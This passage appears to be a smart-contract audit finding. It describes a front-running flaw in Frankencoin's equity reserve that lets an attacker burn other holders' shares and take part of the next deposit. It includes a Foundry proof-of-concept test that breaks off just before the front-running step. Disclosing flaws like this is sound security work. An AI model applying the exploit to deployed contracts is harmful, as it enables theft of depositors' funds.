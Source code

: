 ### Impact

Whenever the protocol's equity drops below the minimum, an attacker can front-run all other qualified users to burn everyone else's shares. By doing so, he is able to keep his shares, thereby stealing a portion of the next deposit.

### Proof of Concept

The following Foundry test demonstrates the scenario described above:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../contracts/Frankencoin.sol";

contract restructureCapTable_POC is Test {
    uint256 private constant MINIMUM_EQUITY = 1000e18;

    Frankencoin zchf;
    Equity reserve;

    address ALICE = address(0x1);
    address BOB = address(0x2);
    address CHARLES = address(0x3);

    function setUp() public {
        // Setup contracts
        zchf = new Frankencoin(10 days);
        reserve = Equity(address(zchf.reserve()));

        // Give all users 2000 Frankencoin
        zchf.suggestMinter(address(this), 0, 0, "");
        zchf.mint(ALICE, 2000 ether);
        zchf.mint(BOB, 2000 ether);
        zchf.mint(CHARLES, 2000 ether);
    }

    function test_FrontrunToKeepShares() public {
        // ALICE deposits 1000 Frankencoin
        vm.prank(ALICE);
        zchf.transferAndCall(address(reserve), 1000 ether, "");

        // BOB deposits 400 Frankencoin
        vm.prank(BOB);
        zchf.transferAndCall(address(reserve), 400 ether, "");

        // CHARLES deposits 400 Frankencoin
        vm.prank(CHARLES);
        zchf.transferAndCall(address(reserve), 400 ether, "");

        // 90 days pass
        vm.roll(block.number + 90 days / 12);

        // ALICE redeems all her shares
        uint256 shares = reserve.balanceOf(ALICE);
        vm.prank(ALICE);
        reserve.redeem(ALICE, shares);

        // Reserve equity is now below minimum
        assertLt(zchf.equity(), MINIMUM_EQUITY);

        // CHARLES front-runs BOB's transactions, burning his shares first
```